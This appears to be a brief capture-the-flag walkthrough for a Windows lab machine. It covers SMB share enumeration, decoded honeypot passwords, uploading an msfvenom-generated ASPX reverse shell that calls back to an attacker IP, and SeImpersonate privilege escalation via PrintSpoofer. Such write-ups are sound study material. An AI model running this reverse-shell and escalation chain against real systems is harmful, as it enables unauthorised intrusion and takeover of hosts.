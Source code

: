 Find it is a windows box with rdp and smb


Find all the different folders

```
smbclient -L $IP
```

Look at the following and find a passwords.txt

```
smbclient \\\\$IP\\nt4wrksv 
```

The passwords fild says the passwords are encoded, so use cyber chef to find

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

None of this works and is a honey pot

use rustscan to find that there are more open ports and run gobuster against 49663

find you have write priviledge to the smb

exploit with a reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.4.28.132 LPORT=1234 -f aspx -o pwn.aspx
```

shows what we can do

```
whoami /priv
```

SeImpersonate privileges means we can do printspoof and get root
